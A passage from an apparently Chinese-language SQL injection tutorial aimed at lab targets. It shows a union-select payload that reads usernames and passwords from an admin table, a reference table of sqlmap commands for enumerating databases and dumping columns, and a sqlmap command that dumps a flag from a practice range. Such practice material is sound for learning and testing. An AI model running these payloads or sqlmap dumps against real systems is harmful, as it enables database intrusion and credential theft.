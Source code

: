   方法三:

  查询admin表:

  ```
  http://localhost/sqls/index.php?id=2 and 1=2 union select 1,2,concat(user,0x3c,pwd) from admin
  ```

  



#### sqlmap

> 工具：sqlmap
>
> 靶场：https://rimovni.exeye.run/hugkudure/well
>
> <img src="https://cdn.kayleh.top/gh/kayleh/cdn4/SQL注入漏洞/1617673856077.png" alt="1617673856077" style="zoom:50%;" />

sqlmap注入常见用法：

| 检查注入点                       | sqlmap -u "http://ooxx.com/a.php?id=1"                       |
| -------------------------------- | ------------------------------------------------------------ |
| 列数据库信息                     | sqlmap -u "http://ooxx.com/a.php?id=1" --dbs                 |
| 指定数据库名列出所有表           | sqlmap -u "http://ooxx.com/a.php?id=1" -D dbsname --tables   |
| 指定数据库名表名列出所有字段     | sqlmap -u "http://ooxx.com/a.php?id=1" -D dbsname -T tablename --columns |
| 定数据库名表名字段dump出指定字段 | sqlmap -u "http://ooxx.com/a.php?id=1" -D dbsname -T tablename -C columnname --dump |
| cookie 注入                      | --cookie=COOKIE 在需要登录的地方，需要登录后的cookie         |
| 执行指定的 SQL 语句              | --sql-query=QUERY                                            |
| 代理注入                         | --proxy="http://127.0.0.1:8087"                              |

#### 命令

```cmd
python sqlmap.py -u "https://rimovni.exeye.run/hugkudure/well" --form --batch -D twosecu1_vuln_06 -T flag -C flag --dump
```

> --form   :表单
>
> --batch  :跳过选择

开始注入，获得数据库

![1617674097343](https://cdn.kayleh.top/gh/kayleh/cdn4/SQL注入漏洞/1617674097343.png)
